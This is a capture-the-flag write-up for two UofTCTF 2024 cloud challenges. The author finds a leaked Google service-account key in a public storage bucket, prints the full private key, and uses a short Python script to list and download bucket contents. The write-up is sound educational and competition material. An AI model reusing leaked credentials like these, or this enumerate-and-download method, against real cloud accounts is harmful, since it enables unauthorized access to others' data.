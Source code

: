 # Uoftctf-2024
#Out of the Bucket
Check out my flag website!
Author: windex
https://storage.googleapis.com/out-of-the-bucket/src/index.html

First, visit the website according to the given link:

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/c880c8f3-55c2-45e3-ade7-5c001796523f)

I can immediately see its path, it seems to be a static website, so I tried to edit its path by deleting `index.html` and reloading but I didn't get anything back, so I continued to delete `src/index.html` then gets the document tree. Here I can see the files (index.html, antwerp.jpg, guam.jpg, style.css) exported in the initial web interface and in addition there is a file `funny.json` and a path `src\dont_show.json`

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/ffd2ce42-9d07-467b-a98a-536f55d20ffe)

I access the funny.json file following its path (secret/funny.json) 

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/37aa62bd-66a2-4ca8-8272-2000989e8e52)

Looking at its content, I see it contains authentication information...hmmm I haven't used it for now. I proceed to access the path 'src/dont_show' and my browser automatically downloaded it to my computer, then I open it with Notepad.

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/ea1c06be-cc0f-4bd4-ba5a-52a807bd8dad)

And I finally got the flag for this challenge.


#Out of the Bucket 2
This is a continuation of "Out of the Bucket". Take a look around and see if you find anything!
Author: windex

Next, for this challenge, I think I have to reuse the authentication information from the first challenge (funny.json file) that I haven't used yet.
I noticed the information fields in the file like oauth,... and I noticed that the website path had 'storage.googleapis.com', I searched for information on the internet and got a some information about 'Google Cloud Storage with credentials'
(`https://stackoverflow.com/questions/52808848/how-to-initialize-google-cloud-storage-with-credentials`, `https://stackoverflow.com/questions/49748910/python-download-entire-directory-from-google-cloud-storage`)

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/aafb5752-36d6-498e-8941-f3abd1ca2ea5)

Didn't disappoint me, I found a few articles on stackoverfow, and now I can get an accurate opinion on everything I was thinking. The value fields are as shown in the article, they correspond to the value fields in the file 'funny.json'.
My task now is to use the authentication information in the funny.json file to be able to access the file content stored on Google Cloud Storage.
Based on the information in the article on Stackoverflow, I wrote a python code file to access Google Cloud Storage.

`from google.cloud import storage
from google.oauth2 import service_account

credentials_dict ={
  "type": "service_account",
  "project_id": "out-of-the-bucket",
  "private_key_id": "21e0c4c5ef71d9df424d40eed4042ffc2e0af224",
  "private_key": "-----BEGIN PRIVATE KEY-----\nMIIEvQIBADANBgkqhkiG9w0BAQEFAASCBKcwggSjAgEAAoIBAQDWxpWEDNiWgMzz\nxDDF64CspqiGPxkrHfhS4/PX8BrxNjUMPAH7vYHE3KbgQsmPhbCte9opnSLdMqec\nWjll8lRZGEy73xhWd2e3tVRAf53r+pW/p6MTOsz3leUkQAscG4hmOVOpGb1AkfuE\n62NErJVZIgQCowrBdFGbPxQc/IRQJKzrCFfKOWSHLvnngr4Ui5CSr6OM33dfpD+v\nQSLkEQheYCXmHwh/Wf8b27be+RzfOp/hOyjKsJOmDvFu2+rrx24t8hCptof3BYol\nUjpaiB8Qcct/HoKOEvZ/S5rW6toQizP8t4t7urC2i70JdH+Y4Qw/AZJNuLo/5wW1\n+x8i3FIDAgMBAAECggEABaGapVC06RVNdQ1tffL+d7MS8296GHWmX34B6bqDlP7S\nhenuNLczoiwVkAcQQ9wXKs/22Lp5rIpkd1FXn0MAT9RhnAIYdZlB4JY3iaK5oEin\nXn67Dt5Ze3BfBq6ghpx43L1KDUKogfs8jgVMoANVEyDfhrYsVQWDZ5T60QZp7bP2\n0zSDSACZpFzdf1vXzOhero8ykwM3keQiCIKWYkeMGsX8oHyWr1fz7AkU+pLciV67\nek10ItJUV70n2C65FgrW2Z1TpPKlpNEm8jQLSax9Bi89HuFEw8UjTfxKKzhLFXEu\nudtAyebt/PC4HS9FLBioo3bAy8vL3o00b7+raVyJQQKBgQD3IWaD5q5s7H0r10S/\n7IUhP1TDYhbLh7pupbzDGzu9wCFCMItwTEm9nYVNToKwV+YpeyoptEHQa4CAVp21\nO4+W7mBQgYemimjTtx1bIW8qzdQ9+ltQXyFAxj6m3KcuAsAzSpcHkbP46lCL5QoT\nTS6T06Fs4xvnTKtBdPeisSgiIwKBgQDee+mp5gsk8ynnp6fx0/liuO3AZxpTYcP8\nixaXLQI6CI4jQP2+P+FWNCTmEJxMaddXNOmmTaKu25S2H0KKMiQkQPuwBqskck3J\npVTHudnUuZAZWE7YPg40MJgg5OQhMVwiqGWL76FT2bubIdNm4LQyxvDeK82XQYl8\nszeOXfJeoQKBgGQqSoXdwwbtF5Lkbr4nnJIsPCvxHvIhskPUs1yVNjKjpBdS28GJ\nej37kaMS1k+pYOWhQSakJCTY3b2m3ccuO/Xd6nXW+mdbJD/jsWdVdtxvjr4MMmSy\nGiVJ9Ozm9G/mt4ZSjkKIIN0cA8ef7uSB3QYXug8LQi0O2z7trM1pZq3nAoGAMPhD\nOSMqRsrC6XtMivzmQmWD5zqKX9oAAmE26rV8bPufFYFjmHGFDq1RhdYYIPWW8Vnz\nJ6ik6ynntKJyyeo5bEVlYJxHJTGHj5+1ZnSwzpK9dearDAu0oqYjhfH7iJbNuc8o\n8sEe2E7vbTjnyBgjcZ26PJyVlvpU4b6stshU5aECgYEA7ZESXuaNV0Er3emHiAz4\noEStvFgzMDi8dILH+PtC3J2EnguVjMy2fceQHxQKP6/DCFlNqf9KUNqJBKVGxRWP\nIM1rcoAmf0sGQ5gl1B1K8PidhOi3dHF0nkYvivuMoj7sEyr9K88y69kdpVJ3J556\nJWqkWLCz8hx+LcQPfDJu0YE=\n-----END PRIVATE KEY-----\n",
  "client_email": "image-server@out-of-the-bucket.iam.gserviceaccount.com",
  "client_id": "102040203348783466577",
  "auth_uri": "https://accounts.google.com/o/oauth2/auth",
  "token_uri": "https://oauth2.googleapis.com/token",
  "auth_provider_x509_cert_url": "https://www.googleapis.com/oauth2/v1/certs",
  "client_x509_cert_url": "https://www.googleapis.com/robot/v1/metadata/x509/image-server%40out-of-the-bucket.iam.gserviceaccount.com",
  "universe_domain": "googleapis.com"
}

credentials = service_account.Credentials.from_service_account_info(credentials_dict)
client = storage.Client( credentials=credentials) 
buckets=list(client.list_buckets())
print(buckets) # get list bucket 
bucket_flag = client.get_bucket('flag-images') #access to bucket
#bucket_flag = client.get_bucket('out-of-the-bucket')

for blob in bucket_flag.list_blobs():
	print(blob)
	filename = blob.name.replace('/', '_') 	
	blob.download_to_filename('flag/'+ filename) #download file to folder './flag'
	print("download file: {}".format(blob.name))`

Run the code and get the following results:

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/ccdb769f-649f-4bf7-ad65-a31c0e0620ad)

To explain the code:
I access Google Cloud Storage through:
`credentials = service_account.Credentials.from_service_account_info(credentials_dict
client = storage.Client( credentials=credentials)`
Next, I got information about the existing buckets on Google Cloud Storage using `buckets=list(client.list_buckets())` as you can see in the code execution results, we have 2 buckets: `flag-images` and `out-of-the-bucket` in first line.
Next, I proceeded to access bucket `flag-images` because I also tried accessing bucket `out-of-the-bucket` before but didn't get anything of value.
Proceed to query the blob in the bucket. blob.name includes the entire directory structure + filename, so if you want the same file name as in the bucket, you might want to extract it first (instead of replacing `/` with `_ `)
After completing the download process, I checked the downloaded content in the 'flag' folder.

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/9048ec8d-f08d-445e-a6fa-cfd384e2ccb3)

I noticed that there is an image file '256x192_xa.png' that is different from other image files.

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/cd4458f2-ec5d-4dda-bb8a-8c44f3f74e72)

Finnally, I got the flag for this challenge!!!
